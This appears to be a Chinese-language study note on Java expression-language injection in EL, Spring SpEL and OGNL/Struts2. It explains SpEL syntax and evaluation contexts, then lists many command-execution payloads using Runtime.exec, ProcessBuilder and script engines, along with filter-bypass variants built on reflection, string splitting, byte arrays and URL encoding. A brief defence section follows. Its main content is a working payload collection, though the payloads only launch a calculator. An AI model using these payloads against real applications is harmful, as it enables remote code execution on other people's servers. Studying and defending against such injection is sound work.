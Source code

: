 OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等
# **EL表达式**
原生EL（Expression Language）表达式 是为了使JSP写起来更加简单。
```
//执行命令
${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")}
```


^
# **Spring的SpEL表达式**
功能：
```
把字符串当做代码执行。
数学表达式执行。
配置文件解析：SpEL可以解析配置文件中的动态值，引用其他属性或方法的值，实现配置的动态性。
SpEL通常用在Spring框架的某些特定场景中，比如
在配置文件中通过`${...}`使用属性占位符，或者在注解中实现复杂的逻辑，例如`@Conditional`注解。
```

集成：
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```
当集成的spring-boot-starter-web依赖后，就可以自动使用。
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。
"SimpleEvaluationContext" 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。
而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。 
如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。

关键词：StandardEvaluationContext()；

^
## **使用**
SpEL的用法有三种形式
1、是在注解@Value中；
2、是XML配置；
3、在代码中使用Expression。
```
SpEL使用#{}作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。
#{}就是SpEL的定界符，用于指明内容未SpEL表达式并执行；
${}主要用于加载外部属性文件中的值；
两者可以混合使用，但是必须#{}在外面，${}在里面，如#{'${}'}，注意单引号是字符串类型才添加的；
```
```
在SpEL表达式中，使用T(Type)运算符会调用类的作用域和方法。
使用T(Type)来表示java.lang.Class实例，Type必须是类全限定名，但”java.lang”包除外，因为SpEL已经内置了该包，即该包下的类可以不指定具体的包名；使用类类型表达式还可以进行访问类静态方法和类静态字段。
T(Runtime).getRuntime().exec('calc')
```

案例：
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>
实战案例：<https://github.com/datageartech/datagear/issues/32>



^
### **SpEL表达式 #{} 和 {} 和 # 的使用用法**
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```



 
^
## **SpEL表达式注入payload**
```
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```
```
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');

String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";

new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";

T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```
更多
```
// PoC原型

// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")
#{T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('calc')}

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
// byte数组内容的生成后面有脚本
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')

// JDK9新增的shell，还未测试
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

## **SpEL表达式注入防御**
使用 SimpleEvaluationContext
防御：使用时做白名单，只有需要的字符串才能当作代码执行。
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```



^
# **OGNL(struts2)表达式注入**
记录POC，具体的内容学structs。

具体参考
<https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x01-OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E5%9F%BA%E7%A1%80>
```
//获取context里面的变量
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前路径
@java.lang.System@getProperty("user.dir")
```

